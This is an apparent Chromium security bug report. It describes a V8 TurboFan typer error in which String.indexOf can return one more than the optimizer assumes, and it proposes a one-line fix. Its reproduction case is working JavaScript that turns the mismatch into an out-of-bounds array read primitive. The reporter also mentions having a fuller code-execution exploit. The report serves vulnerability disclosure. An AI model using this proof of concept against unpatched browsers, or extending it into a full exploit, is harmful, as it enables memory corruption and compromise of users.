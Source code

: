 VULNERABILITY DETAILS
The typer returns a range from -1 to String::kMaxLength - 1 for String.indexOf:
https://cs.chromium.org/chromium/src/v8/src/compiler/typer.cc?rcl=8cd4009c5b7072ad224f19a9e668ec0ed7430599&l=1456

However, indexOf can actually return String::kMaxLength (2**28-16):
'A'.repeat(2**28-16).indexOf("", 2**28).toString(16)

Since the optimizer is confused about the potential return values, you can use it to optimize away array accesses and get an out of bounds read-write primitive.

The fix should simply be to remove the - 1 in that line.

VERSION
Chrome Version: 60.0.3112.113 + stable
Operating System: Ubuntu 17.04

REPRODUCTION CASE

Here's how you trigger an out of bounds read. I can also share a full exploit to UXSS/code exec if you're interested.

function maxstring() {
  // force TurboFan
  try {} finally {}

  var i = 'A'.repeat(2**28 - 16).indexOf("", 2**28);
  i += 16; // real value: i = 2**28, optimizer: i = 2**28-1
  i >>= 28; // real value i = 1, optimizer: i = 0
  i *= 100000; // real value i = 100000, optimizer: i = 0
  if (i > 3) {
    return 0;
  } else {
    var arr = [0.1, 0.2, 0.3, 0.4];
    return arr[i];
  }
}

function opttest() {
  // call in a loop to trigger optimization
  for (var i = 0; i < 100000; i++) {
    var o = maxstring();
    if (o == 0 || o == undefined) {
      continue;
    }
    return o;
  }
  console.log("fail");
}

opttest();